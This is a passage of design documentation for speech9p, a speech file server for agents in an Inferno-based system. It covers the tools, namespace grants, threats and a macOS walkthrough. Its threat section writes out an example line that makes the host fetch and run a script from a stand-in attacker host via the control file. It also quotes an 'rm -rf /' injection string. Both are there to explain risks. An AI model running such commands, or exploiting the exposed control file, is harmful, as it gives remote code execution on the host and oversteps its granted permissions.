

### 7.1 The `say` tool

`appl/veltro/tools/say.b` is intentionally trivial:

1. Parse optional `-v voice` and write `voice <name>` to `/n/speech/ctl`.
2. Open `/n/speech/say` and write the text.
3. Return `ok` (or an error if speech9p isn't mounted).

It does **not** wait for TTS to finish (which matches speech9p's async
write-side semantics — see §4.1). The agent gets `"ok"` back the moment
the bytes are queued.

### 7.2 The `hear` tool

`appl/veltro/tools/hear.b`:

1. Open `/n/speech/hear`.
2. Write `start <duration_ms>` (default 5000, capped at 60000).
3. Read until EOF and return the transcription (or `"(no speech detected)"`).

This is synchronous from the agent's perspective: the `read` blocks until
the recording window closes and STT finishes. As noted in §4.2, this also
blocks the speech9p serveloop for the same duration.

### 7.3 lucibridge auto-speak

A separate consumer driven by the `/voice on` slash command in the chat
input. When enabled, every assistant response is piped through
`speaktext()` (`appl/cmd/lucibridge.b:237`), which:

1. Writes `resource update path=speech status=active` to the activity's
   context channel (status zone in the GUI).
2. Opens `/n/speech/say` and writes the response text.
3. Writes `resource update path=speech status=idle` once the *write*
   returns. This is misleading — the write returns when the bytes are
   queued, **not** when TTS finishes playing. The GUI shows "idle" while
   audio is still coming out.

`agentlib.b:537` (`stripmarkdown`) pre-processes the response so headers,
`**bold**`, code fences, and similar don't get spelled out literally.

### 7.4 Namespace gating

By default a Veltro agent's namespace strips `/n` down to whatever
`caps.paths` allows. `/n/speech` would therefore be invisible to most
agents. Two mechanisms ensure say/hear actually work:

- **Auto-grant in tools9p** (`tools9p.b:992`): if the agent has `say` or
  `hear` registered, `/n/speech` is added to `allpaths` automatically.
- **Auto-grant in nsconstruct** (`nsconstruct.b:212`): if `/n/speech` is
  in `caps.paths` *and* it actually exists on the host, it's added to
  the agent's `nallow` list.

Both predicates check `sys->stat("/n/speech")` so an agent in a session
without speech9p running does not get a stale mountpoint — the namespace
just doesn't include it, and the tool reports `error: /n/speech not
mounted`.

## 8. Threat surface



| Surface                | Risk                                                                                       | Mitigation today                                                                 |
|------------------------|---------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------|
| `/n/speech/ctl` write  | `cmdtts`/`cmdstt`/`piperbin`/`whisperbin` are concatenated into `sh -c` strings → RCE on host. | Trust `/n/speech/ctl` to trusted writers only. **Do not expose ctl to agents** — currently nothing strips it from the auto-granted namespace. |
| `apikey` in memory     | Stored in cleartext as a Limbo string; any compromise of the emu reveals it.               | Same posture as factotum keys. Do not run untrusted code in the same emu.        |
| `apikey` on the wire   | API requests go over plain HTTPS (`sslconnect`) but no certificate pinning.                 | Pin at the network layer if needed; trust your TLS stack.                        |
| Microphone access      | Any STT engine path activates the host mic. The agent can request `hear` and listen to the room. | Disable `hear` via tools9p config when the user isn't expecting an STT prompt.   |
| `/dev/audio` collision | Exclusive-use. If something else holds it, TTS playback fails silently.                    | Coordinate audio clients; the macOS `say` path doesn't touch `/dev/audio`.        |
| Sh injection in `cmd`  | `sanitize()` only strips `'` — weak. Real safety comes from piping text via stdin.         | Keep using `runcmd_stdin` for text; never put agent text into a command argument. |

### 8.1 Recommended posture

- Run speech9p only on hosts where the operator actually wants speech
  (the bundled desktop, voice-front-end Jetsons). It is started by
  `lib/sh/profile` only on the `MacOSX` and `Linux` desktop branches.
- Prefer the `local` engine on Linux/Jetson — no API key, no network
  egress for normal use. Auto-promotion handles this when the binaries
  are installed.
- If using the `api` engine, scope the API key to TTS/STT only; do not
  reuse a chat-completion key for the speech endpoint unless you have to.
- Treat `/n/speech/ctl` as a privileged file. The auto-grant in
  `tools9p.b:992` and `nsconstruct.b:212` adds the *whole `/n/speech`
  directory* to agent namespaces — agents that have `say` or `hear` can
  also `echo 'cmdtts curl evil.example.com | sh' > /n/speech/ctl`. A
  hardening pass that exposes only `say` and `hear` (e.g. `bind -b` of
  individual files into the agent ns) is on the road map.

## 9. Limitations and roadmap



1. **`-e local` rejected by the CLI parser** even though every other code
   path knows about it (`speech9p.b:147–155`). One-line fix.
2. **STT blocks the serveloop.** Until `dohear()` is spawned the same way
   `dosay()` is, only one client at a time can use `/n/speech` while STT
   is running.
3. **Agents see `ctl`, not just `say`/`hear`.** The auto-grant exposes the
   whole tree. A capability-style approach would bind individual files.
4. **No streaming.** Both TTS and STT operate on whole utterances. Long
   audio blocks for the full duration.
5. **Voice rewriting on `api`** silently changes intent — `voice samantha`
   becomes `voice alloy`. Documented here; user-visible warning would help.
6. **Status read is misleading.** A read of `/n/speech/say` returns the
   string set by `asyncsay` *as soon as TTS exits*, but for the macOS
   `say` path that's after audio has played; for the API path that's
   after `playpcm` has *queued* PCM, which may finish playing later. Don't
   build "did it finish?" gates on this.
7. **No remote-audio support inside speech9p.** Cross-host operation is
   handled by namespace composition, not by speech9p itself; see
   [SPEECH-REMOTE-AUDIO.md](SPEECH-REMOTE-AUDIO.md).

## 10. Worked example: macOS

A concrete walk-through of every speech9p path on a stock macOS bundle.
Use this as the reference for what actually happens when you press
**Tab → "speak this"** or write text into `/n/speech/say` from the shell.

### 10.1 Bring-up



After `lib/sh/profile` runs, `cat /n/speech/ctl` returns:

```
engine cmd
voice samantha
lang en
rate 22050
chans 1
bits 16
cmdtts say
cmdstt whisper-cli
```

The macOS preset in `initplatform` (`speech9p.b:206–214`) is what populates
those values — no environment variables, no config file. To change them
permanently you have to either patch that case, or write to `ctl` after
boot (the writes don't persist; restart loses them).

### 10.2 TTS path: `say "Hello world"` (cmd engine, the default)

This is the simplest path in the system. The macOS `say` command plays
audio **directly through CoreAudio**, so `/dev/audio` is not involved.



What's worth knowing:

- `voice = "samantha"` is hard-coded for macOS by `initplatform`. To use
  another macOS voice, write `echo 'voice fred' > /n/speech/ctl` first,
  or run the say tool with `say -v fred Hello`.
- The text is **piped to `say`'s stdin**, not put on its command line —
  `runcmd_stdin` opens the cmd device's data file for both stdin (write
  side) and stdout (read side). No matter how peculiar the agent's text
  is (`"; rm -rf /;`), it never gets parsed by `sh`.
- The full shell command actually executed on the host is
  `/bin/sh -c 'say -v samantha'`. The `'…'` quoting around the command
  itself is constructed by `runcmd_stdin` (`speech9p.b:946`).
- `cat /n/speech/say` after the call returns `ok`. That value is set the
  moment `say` exits — i.e. *after* the audio plays, because macOS `say`
  blocks until playback completes.
- The agent / shell already returned **immediately at step 4**. Tens of
  seconds of audio happen in the background.

To list available macOS voices: `cat /n/speech/voices` runs
`runcmd("say -v \\?")` which executes `/bin/sh -c 'say -v ?'` on the
host and pipes the output back through `/cmd/N/data`.

### 10.3 STT path: `hear` (cmd engine)

The macOS STT path uses two host binaries, both invoked via devcmd:
**ffmpeg** for capture (avfoundation backend → default mic) and
**whisper-cli** from the `whisper-cpp` Homebrew bottle for transcription.



macOS-specific gotchas:

- **The model path is hard-coded** to
  `/opt/homebrew/share/whisper-cpp/models/ggml-base.en.bin`
  (`speech9p.b:569`). That's correct for `brew install whisper-cpp` on
  Apple Silicon; on Intel macs with `/usr/local` brew prefix it is wrong
  and STT will silently produce `"error: transcription failed"`. You
  cannot fix this through `ctl` (the `cmdstt` ctl key only sets the
  binary, not the model). The `local` engine gets you out — see §10.6.
- **Mic permission.** ffmpeg is invoked from emu via devcmd, which is
  invoked from `/bin/sh`. The first time you run `hear`, macOS prompts
  *Terminal* (or whichever app launched emu) to grant microphone
  access. Until that prompt is accepted, ffmpeg writes a 0-byte WAV and
  whisper returns empty.
- **avfoundation device `:0`** is the default audio input. If you have
  AirPods or an external interface and want a different device, you'd
  need to patch `hearcmd_macos` — there is no ctl key for it.
- The **5-second window blocks the speech9p serveloop**. During those
  five seconds, any other reader of `/n/speech` will queue. After STT
  finishes, the serveloop unblocks. The `say` tool keeps working
  immediately because *its* read of the say fid doesn't go through
  `dohear`.

### 10.4 What `/dev/audio` is doing on macOS

For the cmd-engine paths above: **nothing**. Both TTS (`say` plays
directly) and STT (ffmpeg reads the host mic directly) bypass Inferno's
audio device entirely.

`/dev/audio` only matters on macOS in two situations:

- **`engine api` TTS**: PCM comes back from OpenAI as bytes; speech9p
  has nowhere to send them but `/dev/audio`. So `playpcm()` configures
  `/dev/audioctl` (`rate 24000 chans 1 bits 16 play`) and writes the
  bytes through.
- **`engine api` STT**: speech9p calls its in-house `recordaudio()`
  which configures `/dev/audioctl` for capture and reads PCM back. This
  path *does* depend on Inferno's audio driver (`#A`) being functional
  on macOS, which is currently the weakest spot of the macOS audio
  stack. Most users avoid it by sticking with `engine cmd`.

### 10.5 Switching to `engine api` on macOS

```sh
# inside emu, with secstore unlocked or a key in env
echo 'engine api' > /n/speech/ctl
echo 'apiurl https://api.openai.com/v1' > /n/speech/ctl
echo 'apikey '$ANTHROPIC_API_KEY > /n/speech/ctl   # or factotum-derived
echo 'voice nova' > /n/speech/ctl
echo 'Hello from the cloud' > /n/speech/say
```

What changes vs. §10.2:

- TTS path becomes `sayapi` → HTTPS POST to `apiurl/audio/speech` with
  `{"model":"tts-1","input":"…","voice":"nova","response_format":"pcm"}`
  → response bytes are routed to `playpcm()` which configures
  `/dev/audioctl` and writes through `/dev/audio`. CoreAudio plays
  through Inferno's audio driver, not directly.
- If you keep the macOS-default `voice samantha`, the `api` path
  silently rewrites it to `alloy` (`speech9p.b:501`). This is the
  voice-fallback footgun mentioned in §9.6.
- STT (`hear`) becomes `hearapi` → `recordaudio` via `/dev/audio` →
  WAV → multipart POST to `apiurl/audio/transcriptions`. That's the
  one macOS path that actually depends on Inferno's `#A` audio driver.

### 10.6 Switching to `engine local` on macOS

The auto-detection in `initplatform` only fires on Linux. On macOS the
default stays `cmd`; if you `brew install piper` and download a voice
model, you can flip manually:

```sh
echo 'engine local' > /n/speech/ctl
echo 'piperbin /opt/homebrew/bin/piper' > /n/speech/ctl
echo 'pipermodel /opt/homebrew/share/piper/voices/en_US-lessac-medium.onnx' > /n/speech/ctl
echo 'whispermodel /opt/homebrew/share/whisper-cpp/models/ggml-base.en.bin' > /n/speech/ctl
echo 'Hello from local neural TTS' > /n/speech/say
```

The flow becomes the diagram in §4.1's "engine = local" branch. STT now
uses `whispermodel` from ctl (configurable) instead of the hard-coded
path that `hearcmd_macos` uses, which is the only practical reason to
switch on Intel macs where the cmd path is broken (§10.3).

### 10.7 macOS-specific failure modes

| Symptom                                                 | Cause                                                                                  | Fix |
|---------------------------------------------------------|----------------------------------------------------------------------------------------|-----|
| `say` works but voice always sounds the same            | Voice was set on the wrong fid; ctl writes don't survive emu restart.                  | `echo 'voice fred' > /n/speech/ctl` after each boot, or patch `initplatform`. |
| `hear` returns `error: transcription failed`            | Hard-coded `/opt/homebrew/share/whisper-cpp/...` model path doesn't exist (Intel mac, custom brew prefix, model not downloaded). | Switch to `engine local` and set `whispermodel` via ctl. |
| `hear` returns `(no speech detected)` but mic is loud   | First-run macOS microphone permission prompt was dismissed.                            | Grant Microphone access to the launching Terminal/app in System Settings → Privacy → Microphone, then retry. |
| `engine api` TTS produces no sound                      | `/dev/audio` not bound or held by another client (Inferno audio driver issue).         | Stick with `engine cmd` on macOS unless you specifically need API voices. |
| `voice samantha` becomes Alloy on api engine            | Hard-coded fallback at `speech9p.b:501`.                                               | Set an explicit OpenAI-known voice (`alloy`/`echo`/`fable`/`nova`/`onyx`/`shimmer`). |
| `cat /n/speech/voices` lists hundreds of voices         | `say -v ?` enumerates every installed voice, including the multi-language ones.        | Working as intended; pipe through `grep` to filter. |
| Lucifer's "Speech" status zone goes idle while audio still playing | `speaktext()` flips to `idle` when its `write` returns, not when audio drains. | Cosmetic — see §9.8. |

## 11. Pointers

- Code: `appl/veltro/speech9p.b`, `appl/veltro/tools/say.b`,
  `appl/veltro/tools/hear.b`, `appl/cmd/lucibridge.b:237`,
  `appl/veltro/nsconstruct.b:188-216`, `appl/veltro/tools9p.b:992`,
  `module/speech.m`.
- Boot: `lib/sh/profile:112` (`speech9p -e cmd &` on macOS/Linux).
- Manual page: `man/4/speech`.
- Companion docs: [SPEECH-REMOTE-AUDIO.md](SPEECH-REMOTE-AUDIO.md)
  (cross-host audio composition), [ARCHITECTURE.md](ARCHITECTURE.md)
  (where speech9p sits in the system), [NAMESPACE_SECURITY_REVIEW.md](NAMESPACE_SECURITY_REVIEW.md)
  (agent namespace policy).
